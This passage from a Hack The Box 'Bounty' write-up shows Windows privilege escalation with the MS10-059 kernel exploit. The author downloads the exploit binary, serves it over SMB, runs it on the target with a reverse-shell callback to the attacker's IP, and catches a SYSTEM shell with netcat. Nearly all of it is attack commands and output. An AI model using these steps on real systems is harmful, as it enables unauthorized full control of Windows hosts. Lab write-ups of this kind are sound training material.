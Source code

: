 ```bash
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

## MS10-059

Downloaded and hosted the exploit:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Bounty/exploit]
└─$ wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe
--2021-05-24 12:13:01--  https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe
...
2021-05-24 12:13:02 (5.53 MB/s) - ‘MS10-059.exe’ saved [784384/784384]

┌──(kali㉿kali)-[~/…/HTB/box/Bounty/exploit]
└─$ sudo impacket-smbserver kali . -smb2support
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
...
```

Downloaded and executed the exploit on the target:

```powershell
C:\temp>copy \\10.10.14.3\kali\MS10-059.exe .
copy \\10.10.14.3\kali\MS10-059.exe .
        1 file(s) copied.

C:\temp>.\MS10-059.exe 10.10.14.3 10099
.\MS10-059.exe 10.10.14.3 10099

/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```

Obtained SYSTEM shell:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Bounty]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.93] 49169
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\temp>whoami
whoami
nt authority\system

C:\temp>hostname
hostname
bounty

C:\temp>ipconfig /all
ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : bounty
   Primary Dns Suffix  . . . . . . . :
```